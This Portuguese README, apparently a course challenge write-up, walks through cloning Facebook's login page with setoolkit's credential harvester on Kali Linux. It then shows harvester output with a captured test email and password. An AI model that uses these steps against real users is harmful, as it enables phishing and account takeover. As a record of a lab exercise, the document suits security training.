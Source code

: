 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Resutados

![Alt text](./passwd.png "Optional title")

### Resultado do desafio realizado
![image](https://github.com/user-attachments/assets/69d80764-b0ef-4e3b-a05a-faf3c2d6ce0e)

POSSIBLE USERNAME FIELD FOUND: skip_api_login=                               
PARAM: signed_next=                                                          
PARAM: trynum=1                                                              
PARAM: timezone=                                                             
PARAM: lgndim=                                                               
PARAM: lgnrnd=120416_SKEl                                                    
PARAM: lgnjs=n                                                               
POSSIBLE USERNAME FIELD FOUND: email=testeDesafioSucesso@gmail.com           
POSSIBLE PASSWORD FIELD FOUND: pass=321                                      
POSSIBLE USERNAME FIELD FOUND: login=1                        
